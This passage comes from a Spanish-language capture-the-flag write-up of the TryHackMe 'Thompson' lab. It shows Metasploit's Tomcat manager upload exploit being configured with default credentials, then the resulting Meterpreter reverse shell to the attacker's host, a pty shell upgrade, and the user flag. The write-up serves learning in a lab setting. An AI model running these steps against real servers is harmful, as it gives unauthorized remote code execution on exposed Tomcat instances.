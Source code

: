 - Procedemos a realizar la configuración:
  
~~~css
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.25.173
RHOSTS => 10.10.25.173
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set HTTpPassword s3cret
HTTpPassword => s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.9.0.43
~~~

- Ejecutamos con ***exploit***

~~~css
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.9.0.43:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying i7o9QGQiRQAs6...
[*] Executing i7o9QGQiRQAs6...
[*] Sending stage (58829 bytes) to 10.10.25.173
[*] Undeploying i7o9QGQiRQAs6 ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.9.0.43:4444 -> 10.10.25.173:46024 ) at 2022-04-27 21:09:48 -0500

meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 4.4.0-159-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
meterpreter > shell
Process 1 created.
Channel 1 created.

whoami
tomcat
~~~

- Tratamiento de la shell, con el siguiente comando:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

## Bandera usuario

- Procedemos a listar los usuarios en el directorio ***home*** y dentro de este encontramos la respectiva bandera de usuario:

![userFlag](/assets/images/thm-writeup-thompson/thompson_user.png)

---